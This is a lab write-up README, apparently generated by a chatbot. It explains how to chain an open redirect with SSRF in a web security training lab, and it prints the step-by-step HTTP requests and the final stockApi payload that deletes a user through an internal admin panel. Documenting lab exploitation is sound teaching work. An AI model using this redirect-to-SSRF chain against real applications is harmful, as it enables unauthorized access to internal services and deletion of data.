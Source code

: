 Absolutely Kaouthar! 🔥 Here's the **full professional README** for:

🎯 **Lab: SSRF with Filter Bypass via Open Redirection Vulnerability**

This lab is a great example of chaining two vulnerabilities: **Open Redirect** + **SSRF** to achieve internal access.

---

# README — SSRF with Filter Bypass via Open Redirection Vulnerability

---

## 🔍 Overview

This lab demonstrates how an attacker can **bypass SSRF filters** by exploiting an **open redirection vulnerability** inside the same application.

The SSRF filter restricts requests to local paths only. However, the app contains a **vulnerable endpoint** that reflects the `path` parameter into a **302 redirection**, which can be abused to redirect to an internal admin panel and delete a user.

---

## 🎯 Objective

* Bypass SSRF restrictions by abusing an internal open redirect endpoint.
* Redirect the SSRF request to the internal URL:
  `http://192.168.0.12:8080/admin/delete?username=carlos`
* Solve the lab by triggering user deletion via SSRF.

---

## 🛠️ Tools

* Burp Suite (Proxy, Repeater)
* Familiarity with open redirection and SSRF chaining

---

## 🧪 Exploitation Steps

---

### 1. ⛔ SSRF Filter Blocks External Hosts

Intercept this request in Burp:

```http
POST /product/stock HTTP/2
Host: <your-lab>.web-security-academy.net

stockApi=http://192.168.0.12:8080/admin
```

🛑 Rejected – application only allows **relative URLs**, preventing direct SSRF.

---

### 2. 🔁 Identify the Open Redirect

Navigate to the **Next Product** feature:

```http
/product/nextProduct?path=/product?productId=2
```

Observe the response:

```
HTTP/1.1 302 Found  
Location: /product?productId=2
```

✅ This reveals an **open redirect vulnerability**: the app reflects the `path` parameter in the `Location` header without sanitization.

---

### 3. 🔁 Redirect to Internal Admin Interface

Craft a relative path SSRF that **redirects to the internal service**:

```http
/product/nextProduct?path=http://192.168.0.12:8080/admin
```

Use this in the `stockApi` parameter:

```http
stockApi=/product/nextProduct?path=http://192.168.0.12:8080/admin
```

This SSRF **follows the redirect** to the internal admin page.

---

### 4. 💣 Final Payload to Delete Carlos

Replace the URL with the full **delete request**:

```http
stockApi=/product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos
```

📸 Screenshot placeholder:
![ssrf](https://github.com/Kabilala/ssrf/blob/main/lab5/lab5.png)

✅ If successful, the request hits the internal server and deletes the user. Lab is marked **Solved**.

---

## 📸 Screenshots

```